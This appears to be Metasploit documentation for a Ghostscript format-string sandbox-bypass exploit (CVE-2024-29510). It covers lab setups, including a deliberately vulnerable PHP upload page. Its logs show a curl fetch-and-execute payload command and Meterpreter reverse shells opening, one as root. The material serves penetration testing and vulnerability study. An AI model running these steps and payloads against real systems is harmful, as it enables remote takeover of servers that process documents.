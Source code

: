 ## Vulnerable Application

This module exploits a format string vulnerability in Ghostscript versions before 10.03.1 to achieve a SAFER sandbox bypass and execute arbitrary commands. This vulnerability is reachable via libraries such as ImageMagick, which is often used by web applications and other services to preview or convert documents.

This module will generate a Encapsulated PostScript (EPS) file that embeds the selected payload. This file can be consumed by any service using a vulnerable version of Ghostscript under the hood.

### Installation
#### With standalone Ghostscript
Download the source files from https://github.com/ArtifexSoftware/ghostpdl-downloads/releases/ and build Ghostscript:
```
wget https://github.com/ArtifexSoftware/ghostpdl-downloads/releases/download/gs10030/ghostscript-10.03.0.tar.gz
tar xzvf ghostscript-10.03.0.tar.gz
cd ghostscript-10.03.0
./configure
make
```
Then, use the `bin/gs` directly.

#### With ImageMagick
Follow the steps to build Ghostscript but run an additional `make install` to make sure the binaries are copied at the right location in the system.
Download ImageMagick source files from https://github.com/ImageMagick/ImageMagick/archive/ and build it:
```shell
./configure --prefix=/usr --with-gslib --disable-dependency-tracking
make
make install
ldconfig /usr/lib
```
Then, use `identify` or `convert` directly.

#### With a PHP application using ImageMagick on Docker
Create the following `Dockerfile` (mostly taken from the vulhub projects [1](https://github.com/vulhub/vulhub/blob/1d932c52b9eb257de8c8a20ba7696a598157ef8f/base/imagemagick/7.1.1-17/Dockerfile) and [2](https://github.com/vulhub/vulhub/blob/master/ghostscript/CVE-2019-6116)):
```dockerfile
FROM debian:bullseye

RUN set -ex \
    && apt-get update \
    && apt-get install -y --no-install-recommends build-essential automake autoconf libtool libltdl-dev wget ca-certificates libpng-dev libjpeg62-turbo-dev \
        libfontconfig1-dev libfreetype6-dev librsvg2-dev libxml2-dev zlib1g-dev libgif-dev php-cli curl \
	&& apt-get purge -y --auto-remove -o APT::AutoRemove::RecommendsImportant=false \
	&& rm -rf /var/lib/apt/lists/*

ARG GS_URL=https://github.com/ArtifexSoftware/ghostpdl-downloads/releases/download/gs10030/ghostscript-10.03.0.tar.gz
RUN set -ex \
    && wget -qO- ${GS_URL} | tar xz --strip-components=1 -C /usr/src \
    && cd /usr/src \
    && ./configure \
    && make \
    && make install \
    && rm -rf /usr/src/*

ARG IM_VERSION=7.1.1-34
RUN set -ex \
    && wget -qO- https://github.com/ImageMagick/ImageMagick/archive/${IM_VERSION}.tar.gz \
        | tar xz --strip-components=1 -C /usr/src \
    && cd /usr/src \
    && ./configure --prefix=/usr --with-gslib --disable-dependency-tracking \
    && make \
    && make install \
    && ldconfig /usr/lib \
    && rm -rf /usr/src/*

RUN mkdir -p /var/www/html \
    && echo "<?php \n \
  if (!empty(\$_FILES)): \n \
  \$ext = pathinfo(\$_FILES['file_upload']['name'], PATHINFO_EXTENSION); \n \
  \$size = shell_exec(\"identify -format '%w x %h' eps:{\$_FILES['file_upload']['tmp_name']}\"); \n \
  echo \"Image size is: \$size\"; \n \
  else: \n \
  ?> \n \
  <form method=\"post\" enctype=\"multipart/form-data\"> \n \
      File: <input type=\"file\" name=\"file_upload\"> \n \
      <input type=\"submit\"> \n \
  </form> \n \
  <?php \n \
  endif;" > /var/www/html/index.php

CMD ["php", "-t","/var/www/html", "-S", "0.0.0.0:8080"]
```

Build the docker image:
```shell
build -t php_magick_gs:10.03.0 .
```

Run it:
```shell
docker run --rm -p8888:8080 php_magick_gs:10.03.0
```
Access the example web page at http://127.0.0.1:8888 and upload the generated `.eps` file.

## Verification Steps
1. Install the application
1. Start msfconsole
1. Do: `use multi/fileformat/ghostscript_format_string_cve_2024_29510`
1. Do: `exploit lhost=<local host address>`
1. Start a handler for the seclected payload
1. Have the generated Postscript processed by a vulnerable version of Ghostscript
1. You should get a shell.

## Options

### FILENAME
The name of the Encapsulated PostScript (EPS) file that will be generated by this module. Default is `msf.eps`.

### INDEX_OUT_PTR
This module will exploit a format string vulnerability to update the boolean field (`path_control_active`) in memory and disable the `-dSAFER` security sandbox to enable code execution. This field is stored in a specific data structure which can be accessed from a pointer received by the function calling the vulnerable `gs_snprintf()` function. The exploit will dereference this pointer multiple times to reach this field.
This option specify the index of this pointer (`gp_file *out`) on the stack. The default is `5`, which seems to work most of the time. Note that when Ghostscript is installed on a Docker instance, this index seems to be `6`. That being said, if the exploit doesn't work, try with different index value (usually `4`, `5` or `6`).


## Scenarios

### Ghostscript version 10.03.0
Generate the `.eps` files:
```
msf6 exploit(multi/fileformat/ghostscript_format_string_cve_2024_29510) > exploit verbose=true lhost=192.168.1.113

[*] Command to run on remote host: curl -so ./kmMJykHyqUiQ http://192.168.1.113:8080/QAeBnT-6WHJiW5MJjwMrfA; chmod +x ./kmMJykHyqUiQ; ./kmMJykHyqUiQ &
[+] msf.eps stored at /home/n00tmeg/.msf4/local/msf.eps
[+] You will need to start a handler for the selected payload first.
[+] Example usage with Ghostscript: gs -q -dSAFER -dBATCH -dNODISPLAY msf.eps
[+] Example usage with ImageMagick: identify msf.eps
```

Start a hander:
```
msf6 exploit(multi/fileformat/ghostscript_format_string_cve_2024_29510) > use cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 payload(cmd/linux/http/x64/meterpreter_reverse_tcp) > set lhost 192.168.1.113
lhost => 192.168.1.113
msf6 payload(cmd/linux/http/x64/meterpreter_reverse_tcp) > to_handler 
[*] Payload Handler Started as Job 0
```

Execute Ghostscript directly:
```shell
./gs -q -dSAFER -dBATCH -dNODISPLAY ~/.msf4/local/msf.eps
```

Get a Meterpreter session:
```
msf6 exploit(multi/fileformat/ghostscript_format_string_cve_2024_29510) > [*] Meterpreter session 6 opened (192.168.1.113:4444 -> 192.168.1.113:56786) at 2024-07-16 11:00:59 +0200

msf6 exploit(multi/fileformat/ghostscript_format_string_cve_2024_29510) > sessions -1
[*] Starting interaction with 6...

meterpreter > getuid
Server username: n00tmeg
meterpreter > sysinfo
Computer     : 192.168.1.113
OS           : Arch rolling (Linux 6.9.7-arch1-1)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### ImageMagick version 7.1.1-34 on Docker
```
msf6 exploit(multi/fileformat/ghostscript_format_string_cve_2024_29510) > exploit verbose=true lhost=192.168.1.113 index_out_ptr=6 filename=msf6.eps

[*] Command to run on remote host: curl -so ./GzRgKQokL http://192.168.1.113:8080/QAeBnT-6WHJiW5MJjwMrfA; chmod +x ./GzRgKQokL; ./GzRgKQokL &
[+] msf6.eps stored at /home/n00tmeg/.msf4/local/msf6.eps
[+] You will need to start a handler for the selected payload first.
[+] Example usage with Ghostscript: gs -q -dSAFER -dBATCH -dNODISPLAY msf6.eps
[+] Example usage with ImageMagick: identify msf6.eps
```

Start a hander:
```
msf6 exploit(multi/fileformat/ghostscript_format_string_cve_2024_29510) > use cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 payload(cmd/linux/http/x64/meterpreter_reverse_tcp) > set lhost 192.168.1.113
lhost => 192.168.1.113
msf6 payload(cmd/linux/http/x64/meterpreter_reverse_tcp) > to_handler
[*] Payload Handler Started as Job 0
```

Follow the `PHP application using ImageMagick on Docker` installation steps and upload the generated `.eps` file from http://127.0.0.1:8888.

Get a Meterpreter session:
```
msf6 exploit(multi/fileformat/ghostscript_format_string_cve_2024_29510) > [*] Meterpreter session 3 opened (192.168.1.113:4444 -> 172.17.0.3:45102) at 2024-07-16 14:46:55 +0200

msf6 exploit(multi/fileformat/ghostscript_format_string_cve_2024_29510) > sessions -1
[*] Starting interaction with 3...

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.3
OS           : Debian 11.10 (Linux 6.9.7-arch1-1)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

